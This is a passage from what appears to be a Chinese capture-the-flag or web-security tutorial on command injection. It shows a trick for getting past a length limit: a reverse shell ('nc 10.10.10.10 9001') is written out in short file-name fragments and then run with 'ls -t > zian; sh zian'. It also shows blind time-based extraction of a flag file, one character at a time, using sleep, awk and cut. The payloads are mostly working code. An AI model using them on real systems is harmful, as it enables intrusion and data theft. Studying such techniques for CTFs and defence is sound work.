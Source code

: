 **3、绕过长度限制反弹shell命令**  
  
执行shell为  
```
nc 10.10.10.10 9001

```  
```
#>9001
#>\ \\
#>>10\\
#>10.\\
#>10.\\
#>10.\\
#>c\ \\
#>\n\\
#ls -t > zian
#sh zian

```  
  
攻击机监听即可  
## 无回显时间盲注   
  
**1、sleep**  
```
sleep 5 理解SQL延时注入

```  
  
**2、cut -c和awk利用**  
```
cat flag | awk NR==1  | cut -c 1      #获取结果为第1行的第一个字符
cat flag | awk NR==2  | cut -c 2      #获取结果为第2行第二个字符

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianB0HC8aiaThia3snFzs2pxjKxP6icYsXA1iapbkyiaIPlpT55w4c2eV8qhnxw/640?wx_fmt=png&from=appmsg "")  
  
**3、if语句：判断命令是否执行**  
```
if [ $(cat flag | awk NR==1 | cut -c 2) == i ];then sleep 2;fi

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianB1TZyicQ7UXJuvAd4qK3oG56StVUVAIRPm34nMOwbP9Jj2JicHKpFb1Hg/640?wx_fmt=png&from=appmsg "")  
  
  
  
